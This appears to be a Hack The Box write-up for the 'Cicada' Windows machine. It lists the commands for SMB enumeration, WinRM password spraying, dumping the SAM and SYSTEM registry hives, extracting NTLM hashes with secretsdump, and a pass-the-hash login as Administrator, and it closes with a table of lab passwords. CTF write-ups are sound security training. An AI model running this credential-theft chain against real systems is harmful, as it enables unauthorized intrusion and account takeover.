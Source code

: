 ```yaml
---
title: "Cicada"
date: 2024-11-11
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "cicada", "htb walkthrough", "hackthebox", "writeup"]
---
```


## Enumeration

### SMB

![screenshot](/assets/images/cicada1.png)

#### Notice from HR.txt

![screenshot](/assets/images/cicada2.png)

```text
Cicada$M6Corpb*@Lp#nZp!8
```

![screenshot](/assets/images/cicada3.png)

![screenshot](/assets/images/cicada4.png)

```sh
enum4linux-ng -A -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' cicada.htb -t 10
```

![screenshot](/assets/images/cicada5.png)

![screenshot](/assets/images/cicada6.png)

![screenshot](/assets/images/cicada7.png)

#### Backup_script.ps1

![screenshot](/assets/images/cicada8.png)

Creds for emily.oscars

```sh
nxc winrm cicada.htb -u users.txt -p passwords.txt
```

![screenshot](/assets/images/cicada9.png)

![screenshot](/assets/images/cicada10.png)

## Privilege Escalation

```powershell
whoami/all
```

![screenshot](/assets/images/cicada11.png)

```powershell
# save SAM and SYSTEM via evil-winrm
reg save hklm\sam sam.hive
reg save hklm\system system.hive

download sam.hive
download system.hive
```

![screenshot](/assets/images/cicada12.png)

```sh
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![screenshot](/assets/images/cicada13.png)

```txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

```sh
evil-winrm -i cicada.htb -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![screenshot](/assets/images/cicada14.png)

# Credentials

| Username          | Password                 | Hash | Source |
| ----------------- | ------------------------ | ---- | ------ |
| david.orelious    | aRt$Lp#7t*VQ!3           |      |        |
| michael.wrightson | Cicada$M6Corpb*@Lp#nZp!8 |      |        |
| emily.oscars      | Q!3@Lp#M6b*7t*Vt         |      |        |

